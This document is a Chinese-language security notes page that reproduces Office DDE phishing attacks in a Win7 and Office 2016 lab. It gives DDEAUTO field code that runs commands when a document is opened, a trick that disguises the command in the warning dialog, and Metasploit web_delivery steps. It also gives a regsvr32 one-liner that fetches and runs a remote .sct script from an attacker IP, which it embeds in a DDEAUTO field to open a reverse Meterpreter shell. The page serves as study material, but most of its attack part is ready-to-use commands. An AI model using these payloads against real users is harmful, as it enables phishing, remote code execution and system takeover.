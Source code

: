 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - DDE
excerpt: DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议, 攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码
---
```


# DDE

> 环境: Win7 + Office 2016
>
> 可以在 [MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/?ang=2h-cn) 找对应的镜像
>
> - Office 2016: `ed2k://|file|cn_office_professional_plus_2016_x86_x64_dvd_6969182.iso|2588266496|27EEA4FE4BB13CD0ECCDFC24167F9E01|/`
>
> - Win7:
>
>   [原版软件 (itellyou.cn)](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)
>
>   

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议

攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码

---

当用户打开包含DDE字段的文档时，Office应用程序会显示两个警告：

1. **第一个警告**：告知文档包含指向其他文件的链接。
2. **第二个警告**：告知将打开远程命令提示符。

如果用户忽略警告并允许操作，恶意命令将被执行，导致系统被攻击

---

例如: 创建一个文档 `DDE.docx`, 打开后使用 `Ctrl+F9(或者选中"插入"-"文件部件"-"域", 选中第一个 = (Formula) 然后右键切换域代码来编辑代码)` 

---

## 弹计算器

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

以打开计算器为例, 在域代码中输入如下内容

```JavaScript
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

![image-20240606103628125](http://cdn.ayusummer233.top/DailyNotes/202406061623809.png)

保存后重新打开即可触发域代码执行

---

> 在 Office365 和 Office 2013 的 Word 上都没复现出来,都只有如下第一条警告, 然后就没有动静了
>
> ![image-20240517153248330](http://cdn.ayusummer233.top/DailyNotes/202405171532647.png)
>
> ---
>
> 后续在 Win7+Office2016 成功执行了 DDE
>
> ![image-20240606103518902](http://cdn.ayusummer233.top/DailyNotes/202406061623666.png)
>
> ![image-20240606103531060](http://cdn.ayusummer233.top/DailyNotes/202406061623998.png)
>
> ![image-20240606103541298](http://cdn.ayusummer233.top/DailyNotes/202406061623404.png)

也可以伪装一下

> [谨防钓鱼——OFFICE DDE复现_execl dde漏洞 复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)

```js
DDEAUTO C:\\Programs\\Office\\Updates\\WINWORD.exe/../../../../Windows\\System32\\cmd.exe "WinWord Update                                  /k calc.exe"
```

> PS: WinWord Update 和 `/k` 之间多加些空格, 否则效果不是很好:
>
> ![image-20240606181142069](http://cdn.ayusummer233.top/DailyNotes/202406061811150.png)
>
> ![image-20240606181228410](http://cdn.ayusummer233.top/DailyNotes/202406061812566.png)
>
> ![image-20240606181240958](http://cdn.ayusummer233.top/DailyNotes/202406061812069.png)

![image-20240606181847082](http://cdn.ayusummer233.top/DailyNotes/202406061818175.png)

![image-20240606181815913](http://cdn.ayusummer233.top/DailyNotes/202406061818994.png)

![image-20240606181828940](http://cdn.ayusummer233.top/DailyNotes/202406061818028.png)

---

## 反弹Shell

```bash
msf > use exploit/multi/script/web_delivery
msf > set target 3
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost [msf主机要监听的本地ip地址]
msf > set lport [msf主机要监听的本地端口]
msf exploit(multi/script/web_delivery) > exploit -j 
[*] Exploit running as background job 0.
```

- `target 3 -> Regsvr32`

  `regsvr32` 是 Windows 的一个命令行工具, 用于在 Windows 注册表中注册和注销 COM（Component Object Model）对象。这些对象通常是 DLL（动态链接库）或 OCX（ActiveX 控件）文件。注册这些文件允许它们被其他程序调用和使用。

- `windows/meterpreter/reverse_tcp_uuid`: 用于在目标 Windows 系统上建立一个反向连接的 Meterpreter 会话

  与 `windows/meterpreter/reverse_tcp` 类似，但它包含了 UUID（通用唯一标识符）的支持，这有助于在目标系统上运行多个实例时进行区分。这在一些复杂的攻击场景中非常有用，可以更好地管理和跟踪不同的会话。

- `exploit -j`: 启动一个漏洞利用模块并将其作为后台作业（job）运行

  `-j` 表示以作业的方式在后台运行，这意味着漏洞利用模块不会阻塞当前的控制台，允许用户在当前会话中执行其他命令或操作

![image-20240606105827774](http://cdn.ayusummer233.top/DailyNotes/202406061623460.png)

得到上线命令:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

- **/s**：静默模式，执行过程中不显示任何消息框

- **/n**：不用 `DllRegisterServer`，而是使用 `DllInstall` 方法

- **/u**：卸载模式，与 `/i` 参数一起使用时，会调用 `DllInstall` 方法以卸载而不是安装

- **/i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct**：指定传递给 `DllInstall` 方法的参数

  这里是一个远程 URL，指向一个 `.sct` 脚本文件，`regsvr32` 会下载并执行它

  ![image-20240606133303334](http://cdn.ayusummer233.top/DailyNotes/202406061623428.png)

  ![image-20240606133342964](http://cdn.ayusummer233.top/DailyNotes/202406061623821.png)

  具体来说是调 WScript 调 Powershell 执行编码了的命令; 解码后的命令为:

  ![image-20240606143717556](http://cdn.ayusummer233.top/DailyNotes/202406061623227.png)

  最终还是回到下载远程字符串命令并执行, 具体命令为:

  ![image-20240606144027647](http://cdn.ayusummer233.top/DailyNotes/202406061623408.png)

  具体就不往后解了, 还套了好几层, 等后续做个 Powershell 解混淆的专项研究, 收集和编写一些可用工具再看, 人力解混淆太耗时间了

- **scrobj.dll**：指定要使用的 DLL 文件，这里是 `scrobj.dll`, 全称为 "Script Object Model DLL", 是 Windows 脚本宿主（Windows Script Host，简称 WSH）的一部分, 提供了运行和管理脚本的功能

  WSH 支持多种脚本语言，如 VBScript 和 JScript，允许用户编写和执行脚本来自动化任务

---

得到的反弹代码是:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

写成 DDE 就是

```js
DDEAUTO c:\\windows\\system32\\cmd.exe "/k regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll"
```

![image-20240606152651583](http://cdn.ayusummer233.top/DailyNotes/202406061623511.png)

保存后重新打开:

![image-20240606152745928](http://cdn.ayusummer233.top/DailyNotes/202406061623626.png)

![image-20240606152808558](http://cdn.ayusummer233.top/DailyNotes/202406061624209.png)

![image-20240606152851391](http://cdn.ayusummer233.top/DailyNotes/202406061624930.png)

![image-20240606175736169](http://cdn.ayusummer233.top/DailyNotes/202406061758785.png)

---

## 相关链接

- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
- [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击_dde攻击-CSDN博客](https://blog.csdn.net/weixin_45575473/article/details/115894657)
- [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
- [谨防钓鱼——OFFICE DDE复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)
- [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)
- [office-exploits/DDEAUTO at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/DDEAUTO)

---





